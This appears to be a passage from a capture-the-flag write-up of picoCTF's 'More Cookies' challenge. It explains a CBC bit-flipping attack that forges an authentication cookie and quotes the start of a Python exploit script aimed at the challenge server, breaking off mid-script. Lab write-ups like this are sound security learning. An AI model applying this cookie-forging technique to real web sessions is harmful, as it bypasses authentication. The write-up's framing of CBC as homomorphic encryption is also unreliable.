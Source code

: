 ![](https://miro.medium.com/v2/resize:fit:861/1*5q7P5oSZgn65j5LyjRDY3A.png)

![](https://miro.medium.com/v2/resize:fit:875/1*-ZeQCcpsEwFOGLzmAc-f6w.png)

but no it seems to be encrypted not just encoded

so looking at the challenge hints, I found a Wiki link about [Homomorphic encryption](https://en.wikipedia.org/wiki/Homomorphic_encryption), after trying a lot of random decryption and decoding methods, I couldn't solve it

![](https://miro.medium.com/v2/resize:fit:875/0*9gEmM5oALJj8QI6U.jpg)

starting to search for someone’s solution, found this [one](https://picoctf2021.haydenhousen.com/web-exploitation/more-cookies) it contains some useful resources like ([CBC](https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#Cipher_block_chaining_(CBC)), [The Bit Flipping attack](https://crypto.stackexchange.com/questions/66085/bit-flipping-attack-on-cbc-mode/66086#66086), and [Python Script](https://github.com/HHousen/PicoCTF-2021/blob/master/Web%20Exploitation/More%20Cookies/improved_script.py))

in summary, it uses [Homomorphic encryption](https://en.wikipedia.org/wiki/Homomorphic_encryption) which allows u to encrypt data on the basis of its plain text, there are many modes of this encryption algorithm one of them is [CBC](https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#Cipher_block_chaining_(CBC)) which basically encrypts the plain text by **XORing** it with the previous cipher text so if there any byte changed in the previous cipher text it will only affect the corresponding pos in the current plain text u can find more details [here](https://crypto.stackexchange.com/questions/66085/bit-flipping-attack-on-cbc-mode/66086#66086)

![](https://miro.medium.com/v2/resize:fit:875/1*dc4C9PXZaFO-94uAORz52g.png)

so we will try to change every byte in our cookie till we get the flag since we don’t know the target byte, and this is what the Python code does

import requests  
import base64  
from tqdm import tqdm  
  
ADDRESS = "http://mercury.picoctf.net:15614/"  
  
s = requests.Session()  
s.get(ADDRESS)  
cookie = s.cookies["auth_name"]  
# Decode the cookie from base64 twice to reverse the encoding scheme.  
decoded_cookie = base64.b64decode(cookie)  
raw_cookie = base64.b64decode(decoded_cookie)  
  
  
def exploit():  
    # Loop over all the bytes in the cookie.  
    for position_idx in tqdm(range(0, len(raw_cookie))):  
        # Loop over all the bits in the current byte at `position_idx`.  
        for bit_idx in range(0, 8):  
            # Construct the current guess.  
            # - All bytes before the current `position_idx` are left alone.  